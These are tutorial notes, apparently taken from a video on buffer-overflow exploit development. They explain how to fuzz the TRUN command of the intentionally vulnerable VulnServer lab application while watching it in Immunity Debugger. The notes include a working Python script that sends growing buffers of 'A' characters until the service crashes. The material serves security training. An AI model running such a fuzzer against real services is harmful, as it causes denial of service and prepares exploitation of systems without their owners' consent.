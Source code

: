 
# Fuzzing (With Python)

Here’s a breakdown of the video on **fuzzing** for buffer overflow vulnerabilities, including a sample Python script and setup instructions.

---

### Fuzzing for Buffer Overflow (Transcript Notes)

1. **Purpose of Fuzzing**:
    - Unlike spiking, which tests multiple commands, **fuzzing** targets a known vulnerable command (in this case, `TRUN`) by sending incremental inputs to identify the exact byte length at which the application crashes.
2. **Environment Setup**:
    - **Run Immunity Debugger and VulnServer as Administrator**: Close and restart Immunity and reattach to VulnServer after each crash.
    - **Immunity Debugger**: Attach _VulnServer_ and verify that it’s running in the lower-right corner of the Immunity window.
3. **Python Fuzzing Script**:
    - The following Python script incrementsally sends a buffer of “A” characters to the `TRUN` command, increasing in 100-byte intervals until the application crashes.
    - **Fuzzing Script**:
        
        ```Python
        #!/usr/bin/env python3
        import sys, socket
        from time import sleep
        
        buffer = "A" * 100
        
        while True:
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(("192.168.1.90", 9999))  # Replace with VulnServer's IP
                s.send(("TRUN /.:/" + buffer).encode('utf-8'))
                s.close()
                sleep(1)
                buffer += "A" * 100
            except:
                print(f"Fuzzing crashed at {len(buffer)} bytes")
                sys.exit()
        ```
        
    - **Explanation**:
        - **Modules**: `socket` for connecting to VulnServer, `sleep` to add a delay between attempts.
        - **Buffer**: Starts with 100 “A” characters and appends 100 more in each iteration.
        - **Connection**: Sends the `TRUN` command with the buffer to VulnServer.
        - **Loop**: Continues until the application crashes, then prints the byte count.
4. **Running the Script**:
    
    ![[/image 1 7.png|image 1 7.png]]
    